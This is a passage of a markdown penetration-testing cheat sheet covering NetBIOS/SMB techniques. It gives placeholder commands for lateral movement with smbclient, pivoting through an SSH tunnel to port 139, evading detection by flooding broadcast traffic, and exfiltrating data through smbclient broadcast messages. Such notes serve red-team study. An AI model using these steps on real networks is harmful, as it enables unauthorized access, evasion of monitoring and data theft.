 \


*   **Tool:** \[\[SMBClient]]

    ```bash
    smbclient //target/share -U user%password
    ```
* **Description:** Use established NetBIOS sessions to move laterally within the network, accessing shared resources on different machines.

#### Pivoting through NetBIOS

*   **Tool:** \[\[Metasploit]], \[\[SSH]]

    ```bash
    ssh -L 139:<target_ip>:139 <user>@<pivot_ip>
    ```
* **Description:** Set up a tunnel to pivot through a compromised host, allowing access to NetBIOS services on a target machine.

### Defense Evasion

#### Hiding in Broadcast Traffic

*   **Tool:** \[\[Custom Scripts]], \[\[SMBClient]]

    ```bash
    echo "stealth message" | smbclient -M <broadcast_address>
    ```
* **Description:** Send messages or commands via broadcast to avoid detection by network monitoring tools focused on unicast traffic.

#### NetBIOS Traffic Obfuscation

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    for i in {1..1000}; do echo "noise" | smbclient -M <broadcast_address>; done
    ```
* **Description:** Flood the network with benign NetBIOS traffic to mask malicious activities.

### Data Exfiltration

#### Exfiltration via Broadcast

*   **Tool:** \[\[Custom Scripts]], \[\[SMBClient]]

    ```bash
    echo "exfil data" | smbclient -M <broadcast_address>
    ```
* **Description:** Use broadcast messages to exfiltrate data from a network, making it harder to track the source of the data leak.

#### Using NBNS as a Covert Channel

